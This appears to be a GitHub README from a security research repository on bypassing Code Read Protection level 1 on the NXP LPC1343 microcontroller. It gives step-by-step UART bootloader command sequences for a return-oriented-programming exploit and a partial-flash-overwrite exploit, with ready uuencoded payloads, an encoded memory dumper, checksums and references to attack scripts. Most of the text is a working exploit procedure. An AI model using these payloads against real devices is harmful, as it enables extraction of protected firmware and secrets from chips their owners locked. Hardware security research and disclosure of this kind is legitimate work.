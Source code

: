 # NXP LPC1343 CRP bypasses
This exploit bypasses CRP level 1 of the LPC1343 through Return-Oriented Programming and partial overwrite. We conduct the attack on the following development board: [LPC1343](https://www.digikey.com/catalog/en/partgroup/lpc1343-evaluation-board-lpc-p1343/33786). The serial communication for both attack scripts is based on [lpc-serial](https://github.com/zackpi/lpc-serial). Documentation on the LPC readout protection mechanism can be found [here](https://www.nxp.com/docs/en/user-guide/UM10375.pdf).

## ROP Exploit
The ```rop/``` directory contains the necessary files for this exploit. We assume the LPC is configured with CRP 1. Invoke the [rop](ROP/rop.py) script for the exploit.

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Let's try to read some memory, e.g. `R 0 4\r\n` - this will try to read 4 byte from 0x00, but will fail with error code `19` (CRP enabled) if chip is protected
 * Let's exploit, first send: `W 268443476 172\r\n`
 * Now, send this exploit to read from 0x000002fc (this is where CRP is stored): 
 ```
 L^PS_'____________`(``+L0_Q^[$/\?NQ#_'[L0_Q]_$?\?`````($._Q\`
 ```
 * This will give UUencoded memory block, you can repeatedly send `OK\r\n` to dump more memory
 
To change the read address, you need to adapt the address at offset 0x0C ... 0x0F (LSByte first)  in `Exploit_Read_CRP_Value.bin`. Then, `uuencode` this file, and copy only the actual encoded part. Do not include the header
```
begin 777 /dev/stdout
```
and the footer 
```
`
end
```

## Partial Overwrite Exploit
The scripts and code for this exploit are available in the ```partial_overwrite``` directory. The steps below outline the attack. This assumes that you have multiple devices with the same code (for example with ```Exploitable_UserCode.bin```). Invoke the [partial_overwite](partial_overwrite/partial_overwrite.py) script for the exploit. The below is an example to overwrite sector 1, and dump sector 0 and 2...7:

Enable Erase Command: U 23130

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Prepare Sector 1: `P 1 1\r\n`
 * Erase Sector 1: `E 1 1\r\n`
 * Write 256 bytes at 0x10001700 in RAM: `W 268441344 256\r\n`
 * Send the encoded dumper (see Dumper.c):
 ```
M"TL`(EEIB`;\U1+X`1NR]8!?&6#VT4_T`%)9:8D&_-42^`$;LO4`3QE@]M'I
MYP"_`(``0`"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
MOP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
?OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP``
```
* Send the checksum of the bytes: `25345\r\n`

* Prepare Sector 1: `P 1 1\r\n`

* Copy 256 bytes strating from address 0x10001700 in RAM to 0x1100 in flash: `C 4352 268441344 256\r\n`

* Reset - will now dump sector 0 and sectors 2...7


